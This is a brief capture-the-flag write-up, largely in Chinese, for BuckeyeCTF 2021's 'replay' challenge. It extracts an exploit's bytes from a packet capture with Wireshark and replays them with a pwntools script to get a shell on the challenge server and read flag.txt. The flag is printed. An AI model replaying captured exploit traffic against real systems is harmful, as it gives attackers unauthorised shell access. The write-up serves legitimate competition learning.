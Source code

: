 # replay

*Somebody pwned my app! Luckily I managed to capture the network traffic of their exploit. Oh by the way, the same app is also running on `misc.chall.pwnoh.io` on port `13371`. Can you pwn it for me?*

----

使用[Wireshark](https://www.wireshark.org/download.html)分析`replay.pcap`文件,跟踪TCP流,发现似乎是发送了一些数据拿到Shell权限后,执行了一些命令.

对着“Data”右键,选择“导出分组字节流”,保存字节流数据至`a.bin`

<img src="../../CTF/BuckeyeCTF2021/Misc/images/replay-1.png" alt="image-20211027235735902" style="zoom:60%;" />

编写脚本,使用[pwn](https://github.com/Gallopsled/pwntools)连接服务器并发送数据,执行shell命令,找到`flag.txt`文件

```shell
╭─ ~/CTF/BuckeyeCTF2021
╰─$ python a.py
[+] Opening connection to misc.chall.pwnoh.io on port 13371: Done
[*] Switching to interactive mode
$ ls
chall
flag.txt
$ cat flag.txt
buckeye{g00d_th1ng_P1E_w4s_d1s4bl3d_0n_th3_b1n4ry}
```

代码:

```python
from pwn import *
p = remote('misc.chall.pwnoh.io', 13371)
p.recvuntil(b'TODAY', drop=True)
p.recvline()
with open('a.bin','rb') as f:
    data  = f.read()
p.send(data)
p.interactive()
p.close()
```


**flag:**`buckeye{g00d_th1ng_P1E_w4s_d1s4bl3d_0n_th3_b1n4ry}`

